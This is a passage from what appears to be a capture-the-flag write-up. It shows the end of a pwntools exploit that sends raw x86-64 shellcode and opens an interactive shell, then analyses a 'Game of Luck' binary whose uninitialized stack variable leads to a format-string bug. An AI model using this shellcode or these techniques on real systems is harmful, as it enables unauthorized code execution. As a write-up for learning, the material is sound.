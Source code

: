 ```python=0

r.sendlineafter(b">\n", shellcode)
#r.sendline(b"cat flag.txt")

new_shellcode = b"A"*2 + b"\x48\x8B\x34\x24\x48\x81\xC6\x41\x2C\x00\x00\x48\x31\xC0\x48\xFF\xC0\x48\x31\xFF\x48\xFF\xC7\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05"
sleep(1)
r.sendline(new_shellcode)
r.interactive()
```
Result:
![image](https://hackmd.io/_uploads/r1De5hie1e.png)



### Game of Luck
![image](https://hackmd.io/_uploads/Sy8rJsog1x.png)
![image](https://hackmd.io/_uploads/SJFU9njg1e.png)
![image](https://hackmd.io/_uploads/rktPqnjg1g.png)
![image](https://hackmd.io/_uploads/SJhOo2jlyg.png)


I will focus on 2 functions (sub_40140E() and sub_4015B6())
![image](https://hackmd.io/_uploads/HJhsqhoeJg.png)
Generate a random number v1 >=0 and <100 (at rbp-0xC => Important!!) and print out (Lucky number)

Then in the main function, it will call the sub_4015B6 function.
![image](https://hackmd.io/_uploads/SJxUihjeyl.png)



![image](https://hackmd.io/_uploads/B1iconjxJe.png)
We will take a look at the play_401480() function.
![image](https://hackmd.io/_uploads/rkLRi3jxJl.png)
In play_401480(), it will re-seed (by calling clock()) and ask us to guess what v2 is (v2 is the number generated from rand()). We input the guessed number via the sub_4013BB() function (read and atoi)
![image](https://hackmd.io/_uploads/r1S13higye.png)
If the guess is correct it will call the format_vuln_401534() function (format string!!!)
![image](https://hackmd.io/_uploads/B1w1pholyl.png)

The problem here is, it is difficult to guess the seed (clock) in just one guess. If we guess wrong, the program will exit immediately.

Here we go...
 At line 13 in sub_4015B6(), scanf limits the input to a maximum of one character. This means that only a single digit (0-9) will be read and converted into an unsigned integer.
 ![image](https://hackmd.io/_uploads/rytUR2ixkx.png)
So we cannot just input 0x44 (=choice) to call the function format_vuln_401534().
Try debugging and set a breakpoint right there
Run the program a few times and see that the value of choice before scanf is not the same.
![image](https://hackmd.io/_uploads/rkg6l1psgkg.png)
![image](https://hackmd.io/_uploads/ByrbkpoeJl.png)
Why?
![image](https://hackmd.io/_uploads/BJZHkTjekg.png)
"choice" is at rbp-0xC... Our lucky number is also at rbp-0xC.
Reason:
![image](https://hackmd.io/_uploads/BkQg-pjxJg.png)